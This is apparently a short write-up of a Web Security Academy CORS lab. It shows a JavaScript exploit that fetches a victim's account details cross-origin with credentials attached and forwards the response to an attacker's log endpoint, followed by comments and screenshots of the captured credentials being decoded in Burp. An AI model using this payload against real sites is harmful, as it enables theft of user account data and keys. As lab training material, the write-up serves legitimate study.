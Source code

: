1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**The script does the following:**   
		// Create an XMLHttpRequest instance.   
		// Set the event handler that will be called when the response is received.   
		// opening a GET request to the URL to retrieve account details   
		// Sending cookies and HTTP authentication information in the request   
		// Sending the request   
		// Event handler function called when a response is received from the server   
		// forwarding the current page to a log file with the received response text as parameter   
	
2.After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
